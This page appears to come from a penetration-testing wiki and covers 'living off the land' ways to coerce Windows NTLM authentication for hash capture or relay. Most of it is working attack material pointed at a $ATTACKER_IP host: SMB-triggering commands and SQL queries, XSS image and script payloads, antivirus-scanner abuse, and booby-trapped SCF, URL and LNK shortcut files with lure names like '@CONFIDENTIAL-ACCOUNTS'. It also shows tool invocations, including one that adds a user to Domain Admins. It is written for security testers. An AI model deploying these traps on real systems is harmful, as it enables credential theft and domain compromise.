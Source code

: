 # 🛠️ Living off the land

{% hint style="danger" %}
**This is a work-in-progress**. It's indicated with the 🛠️ emoji in the page name or in the category name
{% endhint %}

## Theory

> In the physical world, “living off the land” simply means to survive only by the resources that you can harvest from the natural land. There may be multiple reasons for doing this — perhaps you want to get “off the grid,” or maybe you have something or someone to hide from. Or maybe you just like the challenge of being self-sufficient.&#x20;
>
> In the technology world, “living off the land” (LotL) refers to attacker behavior that uses tools or features that already exist in the target environment. ([source](https://logrhythm.com/blog/what-are-living-off-the-land-attacks/))

There are multiple "living off the land" techniques that can be used to force authentications, to capture hashes, or to relay authentications. In order to use those techniques, testers need to have an initial access to "the land", i.e. the tools or features the technique uses.

## Practice

Those techniques will usually generate outgoing traffic on SMB or HTTP, hence requiring the attacker to set up an SMB or HTTP server to [capture](../ntlm/capture.md) or [relay](../ntlm/relay.md) the authentication (e.g. using tools like [Responder](https://github.com/SpiderLabs/Responder) (Python), [Inveigh](https://github.com/Kevin-Robertson/Inveigh) (Powershell), [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) (Python) or [Inveigh-Relay](https://github.com/Kevin-Robertson/Inveigh) (Powershell)).

### Command execution

On Windows machines, cmdlets like `net` or `dir` can be used to make the machine access a remote resource, hence making it authenticate. This leads to an outgoing traffic using SMB.

```bash
dir \\$ATTACKER_IP\something
net use \\$ATTACKER_IP\something
```

The rpcping command can also be used to trigger an authentication. The perk of this technique is that the auth won't carry a signing negotiation flag, hence allowing for relays&#x20;

### MS-SQL queries execution

On MS-SQL (Microsoft SQL) servers, the EXEC method can be used to access a remote SMB share. This leads to an outgoing traffic using SMB.

```bash
EXEC master.sys.xp_dirtree '\\$ATTACKER_IP\something',1,1
```

### File explorer

On Windows machines, the file explorer can be used to access remote resources like SMB shares by supplying its UNC path (i.e. `\\$ATTACKER_IP\something`) in the research bar. This leads to an outgoing traffic using SMB.

### Internet browser

Internet browsers can access HTTP servers by supplying their URL (i.e. `http://$IP:$PORT/something`) in the research bar. This technique is rarely used as it can pop up a prompt. This leads to an outgoing traffic using HTTP.

### HTML documents / XSS

HTML documents can be crafted (or injected with content when successfully exploiting an HTML injection attack such as an [Cross-Site Scripting](../../../web/inputs/xss-cross-site-scripting.md)) in way that could make browsers authenticate when accessing a remote resource. This leads to an outgoing traffic using SMB.

```markup
<script>
    language='javascript' src="\\$ATTACKER_IP\something\something.js"
</script>
```

```markup
<img src="file://$ATTACKER_IP/something/something.png"/>
```

### Web server file inclusion

{% embed url="https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/" %}

### Windows Defender Remote Scanning

```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\$ATTACKER_IP\file.txt
```

### Trend Micro Remote Scanning

```bash
C:\Program Files (x86)\Trend Micro\OfficeScan Clien\PccNt.exe \\$ATTACKER_IP\s\
```

### Shortcut files (scf, lnk, url)

SMB shares can be trapped with shortcut files that will automatically be handled by Windows' file explorer (e.g. a URL shortcut using an icon file located on a remote SMB share will be parsed by the file explorer that will request the icon file and authenticate if necessary). This leads to an outgoing traffic using SMB.

{% hint style="info" %}
Shares an account has WRITE privileges over can be mapped with [smbmap](https://github.com/ShawnDEvans/smbmap) (Python).

```bash
smbmap -d "domain" -u "user" -p "password" --host-file targets.txt
```
{% endhint %}

{% hint style="info" %}
Shortcut file names can be preprended with a `@` symbol to put them on top of the share, to make sure the file explorer has to parse it.
{% endhint %}

{% hint style="success" %}
The [ntlm\_theft](https://github.com/Greenwolf/ntlm\_theft) (Python) tool can be used to generate multiple file types at once (lnk, scf, url, docx, xslx, htm, xml, pdf, ...).

```bash
ntlm_theft.py --generate all --server $ATTACKER_IP --filename "@FILENAME"
```
{% endhint %}

{% tabs %}
{% tab title=".lnk" %}
An LNK shortcut using an icon file located on a remote SMB share will be parsed by the file explorer that will request the icon file and authenticate if necessary.

> Shortcuts with the .lnk extension have a lot of beneficial properties when it comes to stealth; [they are an exception](https://en.wikipedia.org/wiki/Shortcut\_\(computing\)#Microsoft\_Windows) from the Windows setting to show or hide file extensions. Even when “hide known file extensions” is disabled, explorer.exe will only show the name, allowing us to let it end in “.jpeg”. A major downside is that they only allow 1024 characters for the whole command they execute. ([source](https://hatching.io/blog/lnk-hta-polyglot/))

[LNKUp](https://github.com/Plazmaz/LNKUp) (Python) is a great tool to generate malicious LNK shortcuts. They can be set with a remote icon file to generate outgoing SMB traffic and authentications but can also be set to execute commands when opened (i.e. double-clicked).

```bash
# Simple SMB trap with remote icon file
LNKUp.py --host $ATTACKER_IP --type ntlm --output '@CONFIDENTIAL-ACCOUNTS.txt.lnk'

# SMB trap + command execution
LNKUp.py --host $ATTACKER_IP --type ntlm --output '@CONFIDENTIAL-ACCOUNTS.txt.lnk' --execute "net group 'Domain Admins' Pentester01 /domain /add"
```

{% hint style="info" %}
**Advanced traps**

* LNK files can be mixed with some VBA: [Pwned by Shortcut](https://medium.com/secjuice/pwned-by-a-shortcut-b21473970944)
* LNK files can be mixed with some HTA: [LNK HTA Polyglot](https://hatching.io/blog/lnk-hta-polyglot/)
{% endhint %}

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (Python) can be used to automatically push LNK files to a writeable share.

```bash
# Creation & upload
cme smb "target" -d "domain" -u "user" -p "password" -M slinky -O NAME="SHARE" SERVER="ATTACKER_IP"

# Cleanup
cme smb "target" -d "domain" -u "user" -p "password" -M slinky -O NAME="SHARE" SERVER="ATTACKER_IP" CLEANUP=True
```
{% endtab %}

{% tab title=".scf" %}
An SCF shortcut using an icon file located on a remote SMB share will be parsed by the file explorer that will request the icon file and authenticate if necessary.

{% code title="@CONFIDENTIAL-ACCOUNTS.scf" %}
```bash
[Shell]
Command=2
IconFile=\\$ATTACKER_IP\something\something.ico
[Taskbar]
Command=ToggleDesktop
```
{% endcode %}
{% endtab %}

{% tab title=".url" %}
A URL shortcut using an icon file located on a remote SMB share will be parsed by the file explorer that will request the icon file and authenticate if necessary.

{% code title="@CONFIDENTIAL-ACCOUNTS.url" %}
```bash
[InternetShortcut]
URL=https://www.thehacker.recipes/
IconIndex=0
IconFile=\\$ATTACKER_IP\something\something.ico
```
{% endcode %}
{% endtab %}
{% endtabs %}

### PDF documents

[https://github.com/deepzec/Bad-Pdf](https://github.com/deepzec/Bad-Pdf)

[https://github.com/3gstudent/Worse-PDF](https://github.com/3gstudent/Worse-PDF)

### RTF documents

### MS Word documents

## Resources

{% embed url="https://hatching.io/blog/lnk-hta-polyglot/" %}

{% embed url="https://logrhythm.com/blog/what-are-living-off-the-land-attacks/" %}

{% embed url="https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/" %}

{% embed url="https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/" %}

[https://github.com/Gl3bGl4z/All\_NTLM\_leak](https://github.com/Gl3bGl4z/All\_NTLM\_leak)

[https://mgp25.com/research/infosec/Leaking-NTLM-hashes/](https://mgp25.com/research/infosec/Leaking-NTLM-hashes/)

[https://www.securify.nl/blog/living-off-the-land-stealing-netntlm-hashes#office](https://www.securify.nl/blog/living-off-the-land-stealing-netntlm-hashes#office)

[https://www.ired.team/offensive-security/initial-access](https://www.ired.team/offensive-security/initial-access)

[https://github.com/mdsecactivebreach/Farmer](https://github.com/mdsecactivebreach/Farmer)
